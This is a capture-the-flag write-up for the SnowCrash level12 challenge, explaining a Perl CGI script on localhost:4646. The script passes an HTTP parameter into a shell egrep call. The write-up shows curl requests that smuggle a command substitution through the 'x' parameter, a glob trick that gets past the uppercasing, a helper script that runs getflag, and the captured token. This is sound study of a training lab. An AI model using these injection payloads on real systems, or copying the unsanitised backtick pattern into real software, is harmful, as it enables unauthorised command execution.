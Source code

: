 # Level12

```bash
level12@SnowCrash:~$ ls -lA
total 16
-r-x------  1 level12 level12  220 Apr  3  2012 .bash_logout
-r-x------  1 level12 level12 3518 Aug 30  2015 .bashrc
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
-r-x------  1 level12 level12  675 Apr  3  2012 .profile
```

```perl
level12@SnowCrash:~$ cat level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

```bash
level12@SnowCrash:~$ curl 127.0.0.1:4646
..
```

```bash
level12@SnowCrash:~$ curl '127.0.0.1:4646?x=test&y=test2'
.
```

Once logged in with the level12 user, we are greeted by a basic perl script, all it did was:

- take 2 arguments in the http request: `x` & `y`
- execute some regex replacement to the parameters sent (replace lowercase by caps, and remove all but the first 'word')
- execute an `egrep` command on `/tmp/xd` to search for lines containing the content of `$xx`
- And we don't care of the rest because it wouldn't print the token in any way

### Exploit

The goal was to make the server run the getflag command without just sending it `getflag` in the `x` parameter as it would be replaced by `GETFLAG`, which does not exists.

Running the following command made the vm crash so I thought what I sent to the server was executed

```bash
level12@SnowCrash:~$ curl '127.0.0.1:4646?x=$(./*)&y=test2'
.
```

After rebooting the vm i tried with a script with a filename in caps that would execute `getflag` (in lowercase):
```bash
level12@SnowCrash:~$ nano /tmp/GETFLAG
#!/bin/bash
getflag >> /tmp/GETFLAG
exit 0
```

Gave permissions for the server to execute it:

```bash
level12@SnowCrash:~$ chmod 777 /tmp/GETFLAG
```

Then executed it with the following arguments:

```bash
level12@SnowCrash:/tmp$ curl '127.0.0.1:4646?x=$(/*/GETFLAG)&y=test2'
.
```

As the script name is already in caps, and we don't have any other word than the first one, the command is not modified by the regex expressions.

```bash
.level12@SnowCrash:~$ cat /tmp/GETFLAG
#!/bin/bash
getflag >> /tmp/GETFLAG
exit 0
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

Note: the `*` here is important as passing `/tmp/GETFLAG` would result of the script executing `/TMP/GETFLAG`, but `/TMP` does not exists.

### Goto level13

```bash
level12@SnowCrash:/tmp$ su level13
Password: <<< 'g1qKMiRpXf53AWhDaU7FEkczr'
```
